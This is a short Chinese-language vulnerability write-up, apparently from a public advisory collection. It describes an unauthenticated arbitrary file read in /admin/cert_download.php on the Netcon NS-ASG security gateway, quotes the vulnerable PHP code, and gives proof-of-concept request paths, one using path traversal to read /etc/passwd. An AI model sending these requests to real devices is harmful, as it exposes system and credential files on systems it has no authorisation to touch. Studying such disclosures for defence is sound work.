


网康 NS-ASG安全网关 cert_download.php 任意文件读取漏洞¶
漏洞描述¶
网康 NS-ASG安全网关 cert_download.php 文件存在任意文件读取漏洞
漏洞影响¶
网康 NS-ASG安全网关
网络测绘¶
网康 NS-ASG安全网关
漏洞复现¶
出现漏洞的文件为 /admin/cert_download.php
<?php
$filename = substr($file,strpos('certs/',$certfile)+6);
//文件的类型
header('Content-type: application/pdf');
//下载显示的名字
header('Content-Disposition: attachment; filename="'.$filename.'"');
readfile("$certfile");
exit();
?>
此文件没有对身份进行校验即可下载任意文件
/admin/cert_download.php?file=test.txt&certfile=../../../../../../../../etc/passwd

/admin/cert_download.php?file=test.txt&certfile=cert_download.php
